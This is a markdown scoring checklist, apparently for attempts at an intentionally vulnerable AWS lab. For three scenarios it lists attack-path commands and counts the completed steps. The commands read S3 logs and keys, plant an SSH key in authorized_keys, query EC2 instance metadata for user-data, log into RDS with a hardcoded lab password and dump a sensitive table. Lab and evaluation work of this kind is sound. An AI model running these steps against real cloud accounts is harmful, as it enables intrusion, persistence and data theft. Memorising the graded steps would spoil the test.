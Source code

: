 # Relative path
## Lara A (5a)

- [x] aws configure --profile Lara
- [x] aws s3 cp s3://<bucket\>/cg-lb-logs/AWSLogs/793950739751/elasticloadbalancing/us-east-1/2019/06/19/555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile Lara
- [x] echo "public ssh key" >> /home/ubuntu/.ssh/authorized_keys // Code execution step
- [x] aws s3 cp s3://<bucket\>/db.txt
- [x] ssh -i private_key ubuntu@public.ip.of.ec2
- [ ] psql postgresql://<db_user>:<db_password>@\<rds-instance>:5432/<db_name>
- [ ] select * from sensitive_information;

Steps: 7
Completed: 5

## Lara B (5b)
- [x] aws configure --profile Lara
- [x] aws s3 cp s3://<bucket\>/cg-lb-logs/AWSLogs/793950739751/elasticloadbalancing/us-east-1/2019/06/19/555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile Lara
- [x] echo "public ssh key" >> /home/ubuntu/.ssh/authorized_keys // Code execution step
- [x] ssh -i private_key ubuntu@public.ip.of.ec2
- [ ] curl http://169.254.169.254/latest/user-data
- [ ] psql postgresql://<db_user>:<db_password>@\<rds-instance>:5432/<db_name>
- [ ] select * from sensitive_information;

Steps: 7
Completed: 4

## McDuck (5c)
- [x] aws configure --profile McDuck
- [x] aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat . --profile McDuck // Only one item reported
- [ ] aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat.pub . --profile McDuck
- [x] SSH into EC2 instance // Implicit
- [x] aws s3 cp s3://<bucket>/db.txt
- [ ] psql postgresql://cgadmin:Purplepwny2029@<rds-instance\>:5432/cloudgoat
- [ ] select * from sensitive_informatio

Steps: 7
Completed: 4

# Absolute path

## Lara A (5a)
- [x] aws configure --profile Lara
- [ ] aws s3 ls --profile Lara
- [ ] aws s3 ls s3://<bucket\> --recursive --profile Lara
- [x] aws s3 cp s3://<bucket\>/cg-lb-logs/AWSLogs/793950739751/elasticloadbalancing/us-east-1/2019/06/19/555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile Lara
- [ ] cat 555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log
- [ ] aws elbv2 describe-load-balancers --profile Lara
- [x] echo "public ssh key" >> /home/ubuntu/.ssh/authorized_keys // Code execution step
- [ ] curl ifconfig.me
- [x] ssh -i private_key ubuntu@public.ip.of.ec2
- [ ] sudo apt-get install awscli
- [ ] aws s3 ls
- [ ] aws s3 ls s3://<bucket\> --recursive
- [x] aws s3 cp s3://<bucket\>/db.txt .
- [ ] cat db.txt
- [ ] aws rds describe-db-instances --region us-east-1
- [ ] psql postgresql://<db_user>:<db_password>@<rds-instance\>:5432/<db_name>
- [ ] \dt
- [ ] select * from sensitive_information;

Steps: 18
Completed: 5

## Lara B (5b)

- [x] aws configure --profile Lara
- [ ] aws s3 ls --profile Lara
- [ ] aws s3 ls s3://<bucket\> --recursive --profile Lara
- [x] aws s3 cp s3://<bucket\>/cg-lb-logs/AWSLogs/793950739751/elasticloadbalancing/us-east-1/2019/06/19/555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log . --profile Lara
- [ ] cat 555555555555_elasticloadbalancing_us-east-1_app.cg-lb-cgidp347lhz47g.d36d4f13b73c2fe7_20190618T2140Z_10.10.10.100_5m9btchz.log
- [ ] aws elbv2 describe-load-balancers --profile Lara
- [x] echo "public ssh key" >> /home/ubuntu/.ssh/authorized_keys // Code execution step
- [ ] curl ifconfig.me
- [x] ssh -i private_key ubuntu@public.ip.of.ec2
- [ ] curl http://169.254.169.254/latest/user-data
- [ ] psql postgresql://<db_user>:<db_password>@<rds-instance\>:5432/<db_name>
- [ ] \dt // Inferred
- [ ] select * from sensitive_information; // Inferred

Steps: 13
Completed: 4

## McDuck (5c)

- [x] aws configure --profile McDuck
- [ ] aws s3 ls --profile McDuck
- [ ] aws s3 ls s3://<bucketz> --recursive --profile McDuck
- [x] aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat . --profile McDuck // Only one item reported
- [ ] aws s3 cp s3://cg-keystore-s3-bucket-cgid6prrnaix1v/cloudgoat.pub . --profile McDuck
- [ ] aws ec2 describe-instances --profile McDuck
- [ ] chmod 400 cloudgoat
- [x] (Access EC2 via SSH) // Implicit
- [ ] sudo apt-get install awscli
- [ ] aws s3 ls
- [ ] aws s3 ls s3://<bucket\> --recursive
- [x] aws s3 cp s3://<bucket\>/db.txt .
- [ ] cat db.txt
- [ ] aws rds describe-db-instances --region us-east-1
- [ ] psql postgresql://cgadmin:Purplepwny2029@<rds-instance\>:5432/cloudgoat
- [ ] \dt
- [ ] select * from sensitive_information;


Steps: 17
Completed: 4
